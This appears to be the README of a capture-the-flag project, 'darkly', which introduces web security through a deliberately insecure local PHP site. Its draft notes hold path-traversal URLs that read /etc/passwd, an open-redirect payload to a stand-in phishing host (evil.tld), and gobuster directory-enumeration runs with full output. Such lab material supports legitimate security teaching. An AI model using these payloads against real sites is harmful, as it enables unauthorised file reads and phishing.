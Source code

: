 # darkly

This project is meant as an introduction to web security.

Download `Darkly_i386.iso`, launch it and setup the port forwarding rule: Guest 80 → Host 8080.

An insecure PHP website is now live on `localhost:8080`. There are 14 flags to find.

## TODELETE AXEL RANDOM

`http://localhost:8080/?page=../../../../etc/passwd` (non)

`http://localhost:8080/?page=../../../../../../../etc/passwd` (oui)

TODO: enumeration on ?page=

`index.php?page=redirect&site=http://evil.tld/phishing`

Unvalidated Redirects vs Open Redirects

## TODELETE GOBUSTER COMMANDS

```console
$ git clone git@github.com:3ndG4me/KaliLists.git
```

```console
$ gobuster dir -u http://localhost:8080/ -w KaliLists/dirb/big.txt --exclude-length 975
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                KaliLists/dirb/big.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 193] [--> http://localhost/admin/]
/audio                (Status: 301) [Size: 193] [--> http://localhost/audio/]
/css                  (Status: 301) [Size: 193] [--> http://localhost/css/]
/errors               (Status: 301) [Size: 193] [--> http://localhost/errors/]
/favicon.ico          (Status: 200) [Size: 1406]
/fonts                (Status: 301) [Size: 193] [--> http://localhost/fonts/]
/images               (Status: 301) [Size: 193] [--> http://localhost/images/]
/includes             (Status: 301) [Size: 193] [--> http://localhost/includes/]
/js                   (Status: 301) [Size: 193] [--> http://localhost/js/]
/robots.txt           (Status: 200) [Size: 53]
/whatever             (Status: 301) [Size: 193] [--> http://localhost/whatever/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

```console
$ gobuster dir -u http://localhost:8080/images -w KaliLists/dirb/big.txt -x gif,jpg,jpeg,png --exclude-length 975
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/images
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                KaliLists/dirb/big.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Extensions:              jpg,jpeg,png,gif
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/404.jpg              (Status: 200) [Size: 27027]
/42.jpeg              (Status: 200) [Size: 9783]
/banner.jpg           (Status: 200) [Size: 511270]
/banner2.jpg          (Status: 200) [Size: 50867]
/mailbox.png          (Status: 200) [Size: 49480]
/marvin.jpg           (Status: 200) [Size: 111300]
/search.png           (Status: 200) [Size: 49089]
/upload.png           (Status: 200) [Size: 64785]
/whoami.gif           (Status: 200) [Size: 1809804]
/win.jpg              (Status: 200) [Size: 43468]
/win.png              (Status: 200) [Size: 72726]
Progress: 102345 / 102350 (100.00%)
===============================================================
Finished
===============================================================
```
